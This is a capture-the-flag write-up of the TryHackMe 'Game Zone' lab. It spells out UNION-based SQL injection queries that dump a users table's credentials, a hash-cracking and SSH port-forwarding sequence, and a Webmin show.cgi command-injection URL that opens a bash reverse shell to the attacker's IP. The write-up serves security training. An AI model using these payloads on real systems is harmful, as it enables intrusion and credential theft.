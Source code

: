```yaml
---
layout: solution
category: TryHackMe
contest_code: Basic_Exploitation
contest_name: Basic Exploitation
problem_code: GAME_ZONE
problem_name: Game Zone
comments: false
tags: SQLi RCE
date: 2022-01-30
---
```


### A rust scan was use to conduct a speed scan on the IP and pipe the open ports to conduct a nmap scan. From what it shows, ports 22 and 80 are open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan2.png)

<br >


### Upon visiting the site, it shows me a game zone web page which is also a login page

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/web1.png)

<br >


### After attempting a basic SQL Injection, it logged me in

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/portal.png)

<br >


### Knowing this site is vulnerable to SQLi, we are able to extract all the reviews. However these are not useful, so next we can attempt to extract something interesting in the database
### We can either do it manually or use SQLMAP

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli1.png)

<br >


<h3 style="color:aqua;">‎[Method 1]: From what it looks like, there are 3 columns --> ID (Hidden), Title & Review. Thus we can craft the following syntax to list all table names from information_schema.tables </h3>

```
' AND FALSE UNION SELECT null, table_name, null FROM information_schema.tables;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli2.png)

<p style="color:orange;">We see an interesting table called users</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli3.png)

<br >


<h3 style="color:aqua;">‎[Method 1]: The next query is crafted to retrieve column names from the table "users".  From the result we can see that the credentials of users are stored </h3>

```
' AND FALSE UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name = 'users';#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli4.png)

<br >


<h3 style="color:aqua;">‎[Method 1]: To list the creds, we can craft this simple SQL query and finally we got credentials of the user agent47 </h3>

```
' AND FALSE UNION SELECT null, username, pwd FROM users;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli5.png)

<br >


<h3 style="color:darkorchid;">‎[Method 2]: In order to use SQLMAP to obtain credentials, we first need to intercept the request using Burp Suite and save it into a file for it to be used by SQLMAP for authentication </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/burpsuite.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/save.png)

<br >


<h3 style="color:darkorchid;">‎[Method 2]: Next when we ran SQLMAP, we got credentials of the user agent47 </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap_crack.png)

<br >


### We can determine this hash type by doing a lookup at online tools. It shows that this is a sha256 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hash.png)

<br >


### After saving the hash in a file, I used hashcat to crack the credential of user47

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hashcat.png)

<br >


### Using the cracked credentials, we are able to authenticate as user47 from SSH

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ssh.png)

<br >


### When list all listening connections, we see that port 10000 is open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/netstat.png)

<p style="color:orange;">When attempting to connect to it, we are getting connection refused. This could probably mean there is a firewall blocking our access to that port</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat1.png)

<br >


### We would be able to bypass the firewall by using SSH Port Forward

<p style="color:orange;">Since we can have SSH access to the vulnerable server, we could use the following command to create a link to the server on by accessing 127.0.0.1:9000 on our side from serverIP:10000</p>

```
ssh -L 9000:127.0.0.1:10000 agent47@$IP -fN
```

<p style="color:orange;">By doing so, we now can access the service on port 9000 locally</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat2.png)

<p style="color:orange;">From a Nmap scan, it tells us it’s a web service - webmin</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/nmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login2.png)

<br >


### By using agent47 credentials, we are able to login to webmin

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/webmin.png)

<br >


### Running a Searchsploit for this version shows us that it is vulnerable to RCE by running /file/show.cgi

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/searchsploit.png)

<br >


### Even though we can use Metasploit to get a shell, I'll try and refrain from suing Metasploit because it will be better if we understand how the exploit works

<p style="color:orange;">After understanding how the exploit works,  we can use the following query</p> 

```/file/show.cgi/bin/<5 or more - random chars of alphabetical & numerical>|<command>|```

<p style="color:orange;">If I am not wrong, the random characters is used to make a unique file thus below will be my final URL syntax to get a reverse shell</p>
```
/file/show.cgi/bin/g6s7t|bash -c 'exec bash -i &>/dev/tcp/10.11.21.149/9999 <&1'|
```

<p style="color:orange;">Before running that I'll have to open a Ncat listener and only after executing the URL syntax, got me a shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/exploit.png)
